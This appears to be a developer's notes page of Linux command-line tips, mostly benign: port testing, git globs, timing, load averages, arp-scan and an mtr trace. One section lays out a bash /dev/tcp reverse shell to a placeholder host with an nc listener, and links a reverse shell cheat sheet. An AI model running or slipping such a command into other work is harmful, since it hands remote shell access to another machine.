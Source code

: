 cmak# Linux CLI tricks

# Send a string to an IP/port
```bash
telnet 127.0.0.1 80

(echo hello; sleep 1) | telnet 127.0.0.1 80

echo hello > /dev/tcp/127.0.0.1/80

echo hello | nc localhost 80
```

# Reverse shell
```bash
# server
nc -knvlp 3389

# client
bash -i >& /dev/tcp/server_ip/3389 0>&1
```

## See also

- https://tldp.org/LDP/abs/html/x17974.html
- https://highon.coffee/blog/reverse-shell-cheat-sheet/
- https://catonmat.net/bash-one-liners-explained-part-three
- http://docs.eggplantsoftware.com/epp/9.0.0/ePP/advovercoming_tcpip_connection_li.htm

# Target everything but one file
```
git add !(unit.md)
```

# Print a random line from a file
```bash
sed "$(( $RANDOM % $(cat readme.txt | wc -l) ))q;d" readme.txt

shuf readme.txt | head -1
```

# Epoch seconds
From bash 5.

```bash
$ echo $EPOCHREALTIME
1614870873.574544

$ echo $EPOCHSECONDS
1614870876
```

# uptime

The three load average values are 1, 5 and 15 minutes.

```bash
$ uptime
15:29:28 up 20:23, 0 users, load average: 5.08, 1.49, 0.51
```

# stress

Stress your system in different ways.

```bash
$ stress --cpu 8
```

# Number of processors
```
$ make -j $(nproc)
```

# Synonyms for localhost

```bash
localhost
127.0.0.1
127.0.0.2
127.0.0.3
127.1
0.0.0.0
0 # wut
```

# Move a file out of the way

```bash
mv {,_}.bash_history
```

# Verbose time

```
$ /usr/bin/time -v ls /
bin dev home lib lib64 lost+found mnt proc run snap sys usr
boot etc init lib32 libx32 media opt root sbin srv tmp var
Command being timed: "ls /"
User time (seconds): 0.00
System time (seconds): 0.00
Percent of CPU this job got: 100%
Elapsed (wall clock) time (h:mm:ss or m:ss): 0:00.00
Average shared text size (kbytes): 0
Average unshared data size (kbytes): 0
Average stack size (kbytes): 0
Average total size (kbytes): 0
Maximum resident set size (kbytes): 2412
Average resident set size (kbytes): 0
Major (requiring I/O) page faults: 0
Minor (reclaiming a frame) page faults: 126
Voluntary context switches: 1
Involuntary context switches: 0
Swaps: 0
File system inputs: 0
File system outputs: 0
Socket messages sent: 0
Socket messages received: 0
Signals delivered: 0
Page size (bytes): 4096
Exit status: 0
```

# Vendor IDs
View the latest on [ieee.org](http://standards-oui.ieee.org/oui.txt).

To install on Ubuntu:
```bash
sudo apt install --yes arp-scan
get-oui
```

# pushd equivalent
I use this all the time. Rather than `pushd` and `popd` to navigate around the file system:
```bash
# Navigate to new dir
cd ~/deanturpin.gitlab.io/content/post

# Return whence you came
cd -
```

# Last argument
I've used `esc shift -` to get the last argument from the previous command for a long time. But it's a little unweildy and you can do the same with `alt .`.

# MTR: "my traceroute"
Like tracepath/route but cooler.

```bash
My traceroute [v0.93]
BootCamp-0263E (172.25.71.53) 2021-04-10T13:22:42+0100
Keys: Help Display mode Restart statistics Order of fields quit
Packets Pings
Host Loss% Snt Last Avg Best Wrst StDev
1. BootCamp-0263E.7thsensedesign.local 0.0% 37 0.6 0.7 0.2 3.5 0.5
2. 192.168.0.1 97.2% 37 5.6 5.6 5.6 5.6 0.0
3. (waiting for reply)
4. brig-core-2b-xe-810-0.network.virginmedia.net 0.0% 37 11.6 15.1 11.1 32.4 4.6
5. (waiting for reply)
6. eislou2-ic-3-ae0-0.network.virginmedia.net 0.0% 37 22.1 26.5 20.0 51.8 7.5
7. 72.14.221.42 0.0% 37 22.7 25.1 20.4 46.0 5.4
8. 108.170.246.161 0.0% 37 19.2 23.4 18.7 39.5 5.0
9. 108.170.246.175 63.9% 37 23.3 28.1 22.9 45.5 6.6
10. 216.239.58.179 63.9% 37 22.2 29.2 22.2 62.7 10.7
11. 142.250.210.20 0.0% 37 101.4 104.0 98.5 111.8 3.4
12. 142.250.210.24 66.7% 37 115.7 114.8 110.2 123.0 3.3
13. 209.85.247.212 66.7% 37 115.7 114.9 108.7 131.7 6.5
14. 209.85.241.205 66.7% 37 111.9 116.2 111.2 129.3 5.0
15. (waiting for reply)
16. (waiting for reply)
17. (waiting for reply)
18. (waiting for reply)
19. (waiting for reply)
20. (waiting for reply)
21. (waiting for reply)
22. (waiting for reply)
23. (waiting for reply)
24. 35.185.44.232 0.0% 36 110.9 113.7 108.8 132.4 5.5
```

# See also
- https://github.blog/2015-06-08-how-to-undo-almost-anything-with-git/
